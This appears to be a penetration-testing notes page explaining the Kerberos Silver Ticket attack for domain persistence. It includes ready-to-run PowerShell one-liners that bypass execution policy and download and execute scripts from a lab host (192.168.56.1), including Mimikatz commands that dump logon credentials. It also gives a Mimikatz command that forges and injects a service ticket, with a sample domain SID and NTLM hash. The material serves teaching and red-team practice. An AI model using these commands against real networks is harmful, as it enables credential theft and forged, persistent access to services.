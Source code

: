 # Silver Ticket

## Intro

Silver ticket attack is one of the ways to gain domain persistence. Once you have gained domain admin or you could dump hashes of a service account some how. If you have recalled how Kerberos works let’s see where this attack fits in the cycle.

On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this meathod.

![](../../../../.gitbook/assets/image%20%28191%29.png)

#### Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything. A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines. We would generally target these services when it comes to performing a silver ticket attack. CIFS \(file system\), HOST \( can schedule tasks \), RPCSS Host \(runs wmi\), WSman/http \(ps remoting\) all of these use the machine account as there service account.
{% endhint %}

## Dumping Password Hash

If an attacker can gain admin rights to the computer \(to gain debug access\) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz \(the NTLM password hash is used to encrypt RC4 Kerberos tickets\)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```text
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](../../../../.gitbook/assets/image%20%28189%29.png)

**Target** – This is the host, which can be copied from the SPN value. 

```text
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](../../../../.gitbook/assets/image%20%28186%29.png)

## Forging Silver Ticket

#### the syntax for mimikatz command is:

```text
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use 

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes \(default 10 years\)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## Host Exploitation with Silver Ticket

By issuing a klist command you can see that we now have the ticket for sql service.

 

![](../../../../.gitbook/assets/image%20%28190%29.png)



more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}





